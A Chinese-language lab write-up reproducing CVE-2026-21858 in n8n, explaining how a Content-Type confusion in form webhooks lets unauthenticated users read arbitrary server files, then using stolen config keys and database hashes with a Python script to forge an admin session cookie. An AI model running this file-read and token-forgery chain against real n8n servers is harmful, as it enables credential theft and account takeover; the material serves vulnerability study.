# 一、环境搭建

cmd 执行 `git clone https://github.com/Chocapikk/CVE-2026-21858.git`。



然后可以选择使用docker build 或者 docker compose 都行

> `docker build -t <镜像名> .`
>
> `docker compose up -d`

然后访问本地的5678端口前者的话记得docker run 一下。



# 二、漏洞描述

> N8N是AI和AI代理时代构建自动化工作流程的首选平台。拥有超过一亿次Docker拉取、数百万用户和数千家企业在使用它，n8n已成为自动化基础设施的中枢神经系统，你的组织很可能也会使用它。
>
> N8N 提供了友好的拖拽界面和无数集成，让即使是技术最低限的用户也能创建自动化和卸载任务。  
> 如果你能想象，你大概可以用n8n来建造。

在其 1.121.0 之前的版本中，存在一个输入验证错误漏洞（CVE-2026-21858）。由于系统未对 Webhook 请求及表单节点输入进行充分校验，**未经身份认证**的用户可通过公开的表单型工作流节点，绕过权限控制机制，直接访问服务器上的敏感文件。

## 受影响版本

n8n 版本 < 1.121.0。

## 漏洞原理

在n8n的工作流程中使用webhook作为起点来接受入站数据，然后将接受到的入站数据传给parseRequestBody()的一个函数，这里给出函数源码

```javascript
/**
 * Parses the request body (form, xml, json, form-urlencoded, etc.) if needed
 * into the `req.body` property.
 */
async function parseRequestBody(req: WebhookRequest, ...) {
    // truncated for clarity
    const { contentType } = req;
    if (contentType === 'multipart/form-data') {
        req.body = await parseFormData(req); // populates req.body.data, req.data.files
    } else {
        if (
            contentType?.startsWith('application/json') ||
            contentType?.startsWith('text/plain') ||
            contentType?.startsWith('application/x-www-form-urlencoded') ||
            contentType?.endsWith('/xml') ||
            contentType?.endsWith('+xml')
        ) {
            await parseBody(req); // populates req.body.data
        }
    }
}
```

这个函数相当于是识别请求头然后进行分类并且把解码后的结果塞到req.body(全局变量)中去，对于表单数据请求，它使用parseFormData函数。对于所有其他内容类型，它使用parseBody函数**相当于就是把数据做了分类给其他函数进行进一步的处理。关键在于他会把结果存储到req.body这是个全局变量。** 接着他的文件上传部分是parseFormData(文件上传解析器)，这个函数实际上是Formidable。

> Formidable 是一个Node.js库，专门用于处理文件上传。  
> 它解析`多部分/表单数据`请求，处理所有文件上传机制——包括安全方面。  
> 这里重要的安全细节是——当Formidable处理上传文件时，它会自动将其保存到临时目录中随机生成的路径。这意味着用户无法控制文件最终到达的位置，从而防止路径穿越攻击。

关键在于这个解析函数会用Formidable的解析输出结果给到 req.body.files 而不是给 req.body。所以整个流程是webhook接受数据然后给parseRequestBody()函数去判断是不是表单数据如果是就交给parseFormData不是就交给parseBody然后通过各自的解析将结果输出给req.body或req.body.file等全局变量

```text
┌───────────────────────┐
│   Webhook 节点        │  ← 接收外部入站数据（POST请求）
└───────────┬───────────┘
            │
            ▼
┌───────────────────────┐
│  parseRequestBody()   │  ← 核心解析入口函数
└───────────┬───────────┘
            │
            ▼
   读取请求头 Content-Type
            │
      ┌─────┴─────┐
      ▼           ▼
┌────────────┐  ┌─────────────────────────────────┐
│ 是 multipart/│  │ 其他类型（JSON/XML/表单/文本） │
│ form-data？ │  │                                 │
└──────┬──────┘  └───────────────┬─────────────────┘
       │                         │
       ▼                         ▼
┌────────────────┐      ┌────────────────┐
│ parseFormData()│      │ parseBody()     │
│ (基于Formidable)│      │                 │
└────────┬───────┘      └────────┬───────┘
        │                        │
        ▼                        ▼
┌────────────────────┐   ┌────────────────────┐
│ 结果存入：          │   │ 结果存入：        │
│ req.body.data      │   │ req.body.data      │
│ req.body.files     │   │                    │
└────────────────────┘   └────────────────────┘
```

在 n8n 中，任何文件处理函数的标准做法是直接从req.body.file获取上传的文件。

```javascript
async webhook(ctx: IWebhookFunctions): Promise<IWebhookResponseData> {
    // truncated for clarity
    if (enableStreaming) {
        if (req.contentType === 'multipart/form-data') {
            returnData = [await this.handleFormData(ctx)]; // <---- right here
        } else {
            returnData = [{ json: bodyData }];
        }
        // ...
    }
    // ....
}
```

这个很好看了吧，他把表单数据交给handleFormData来处理。那么正常的逻辑是上传文件然后分类到parseFormData函数然后交给req.body.files然后再被文件处理函数接受到handleFormData。那我们接着看handleFormData函数是什么逻辑。

```javascript
private async handleFormData(context: IWebhookFunctions) {
    const req = context.getRequestObject() as MultiPartFormData.Request;
    const { data, files } = req.body; // <--- fetch files
    // truncated for clarity
    if (files && Object.keys(files).length) {
        // file processing logic
    }
    return returnItem;
}
```

他定义了data和files两个字段来存储req.body中得到的结果，而我们知道req.body是经过非表单数据提交得到的数据。那么也就是说我们如果通过改包让最开始的分类逻辑调用的是parseBody()函数。那么正常来说他应该是有req.body.data这个数据对吧，而files是空的才对。那如果我们传入了一个json串那么它的files会被覆盖掉吗？答案是肯定的。借鉴一下大佬的图（真的讲的很清楚）



处理表单提交的函数是formWebhook

```javascript
export async function formWebhook(context: IWebhookFunctions, ...) {
    // ...
    const req = context.getRequestObject(); // fetch request object
    const method = context.getRequestObject().method;

    // Show the form on GET request
    if (method === 'GET') {
        // ...
    }

    // process form on POST request
    // no verification of the Content-Type (!)
    const returnItem = await          
    prepareFormReturnItem(context,formFields,mode,useWorkflowTimezone);

    return {
        webhookResponse: { status: 200 },
        workflowData: [[returnItem]],
    };
}
```

我们直接来看关键的prepareFormReturnItem()函数

```javascript
export async function prepareFormReturnItem(
    context: IWebhookFunctions,
    // ... 其他参数省略
) {
    // truncated for clarity
    const req = context.getRequestObject();
    const files = req.body.files; // <-- fetches req.body.files
    let fileCount = 0;

    if (files && Object.keys(files).length) {
        // no files, return
    }

    for (const file of files) {
        returnItem.binary![fileCount++] = await context.nodeHelpers.copyBinaryFile(
            file.filepath,
            file.originalFilename,
            file.mimetype
        );
    }
}
```

> 这是一个文件处理函数，调用 `req.body.files` 中的每个文件 `copyBinaryFile（）` 。
>
> `copyBinaryFile（）` 函数将文件从其临时路径（存储在 `req.body.files[id].filepath`）复制到持久存储——根据配置，可以存储在磁盘或 S3 对象存储中。
>
> 问题在于：由于调用该函数时未验证内容类型是`multipart/form-data`，我们控制的是整个`req.body.files`对象。
>
> 这意味着我们控制`的是文件路径`参数——所以我们不是复制已上传的文件，而是可以从系统中复制任何本地文件。  
> 结果呢？Form节点之后的任何节点都会接收本地文件的内容，而不是用户上传的内容。

# 三、漏洞复现

> 作者设置的未授权api是`/form/vulnerable-form`



这里说一下我遇到的小问题，右下角有个LF，如果你是Windows的话他是CRLF，这个时候要打开vscode把右下角点一下然后更换成LF就可以了。

然后访问作者给的未授权api。



和我们之前说的一样，抓包改包content type改为json串格式然后成功读取到etc/passwd。当然这是任意文件读取，那么接下来把他上升到rce。



## RCE

> N8N将认证会话存储在一个名为“`N8N-Auth`”的Cookie中。  
> 登录成功后，n8n会通过特定流程生成该Cookie值。  
> 首先，它创建一个包含关键用户信息的词典——用户ID和SHA256哈希的前10个字符。  
> 这个哈希值是通过连接用户邮箱和密码的字符串计算出来的。

> 首先，所有用户记录都存储在 n8n 的数据库中，该数据库在本地部署中存储在磁盘上（如 Docker 或源码安装）。  
> 例如，在 Docker 部署中，数据库位于 `/home/node/.n8n/database.sqlite`。
>
> 其次，加密密钥存储在配置文件中，配置文件也存储在本地部署中。配置位置是 `/home/node/.n8n/config`。



读取config在root下面。



读取environ。



如果是docker搭建这里环境中database.sqlite是在/root/.n8n/下面的。



```python
import hashlib
import jwt
from base64 import b64encode

def generate_n8n_admin_token(uid, email, pw_hash, encryption_key):
    # 1. 派生签名密钥 (Secret Derivation)
    # 逻辑：取 encryptionKey 的每隔一个字符，然后进行 SHA256 并转为十六进制
    sliced_key = encryption_key[::2]
    secret = hashlib.sha256(sliced_key.encode()).hexdigest()
    
    # 2. 计算 Payload 中的 hash 字段
    # 逻辑：将 email 和 password_hash 拼接，进行 SHA256，Base64 编码后取前 10 位
    hash_input = f"{email}:{pw_hash}".encode()
    hash_digest = hashlib.sha256(hash_input).digest()
    h_claim = b64encode(hash_digest).decode()[:10]
    
    # 3. 构造 Payload
    payload = {
        "id": uid,
        "hash": h_claim
    }
    
    # 4. 使用 HS256 算法和派生的 secret 进行签名
    token = jwt.encode(payload, secret, algorithm="HS256")
    
    return token, secret, h_claim

# 输入参数
target_id = "6dfdc046-c3b2-4a24-895a-aa8861f42fe1"
target_email = "admin@exploit.local"
target_pw_hash = "$2a$10$thRakOhxmhH6bmEI1z9BpOmdfQcIy21gspPPtplBE0.8EqwteET2e"
target_enc_key = "oG5MjnMemT3nZQzpkMjWdilbM++7Xgvl"

# 执行生成
token, derived_secret, derived_hash = generate_n8n_admin_token(
    target_id, target_email, target_pw_hash, target_enc_key
)

print("-" * 30)
print(f"[*] 派生密钥 (Secret): {derived_secret}")
print(f"[*] 载荷哈希 (Hash Claim): {derived_hash}")
print(f"[*] 生成的 JWT Token:\n{token}")
print("-" * 30)
print(f"使用方法: \n在请求头中添加: Cookie: n8n-auth={token}")
```

这里借鉴一下大佬的脚本，记得把参数替换成自己读取到的，然后去登陆页面改n8n-auth的值就可以进了。这里就不过多展示了。



然后点击"Add workflow"



搜索manual trigger



点击右边那个加号(你刚刚创建的东西的右边那个)然后找到edit fields





add然后选expression。



# 四、参考文章

[wioui/n8n-CVE-2025-68613-exploit: CVE-2025-68613: n8n RCE vulnerability exploit and documentation](https://github.com/wioui/n8n-CVE-2025-68613-exploit)

[Ni8mare - n8n 中的未认证远程代码执行（CVE-2026-21858） |赛耶拉研究](https://www.cyera.com/research/ni8mare-unauthenticated-remote-code-execution-in-n8n-cve-2026-21858#the-final-piece-code-execution-2)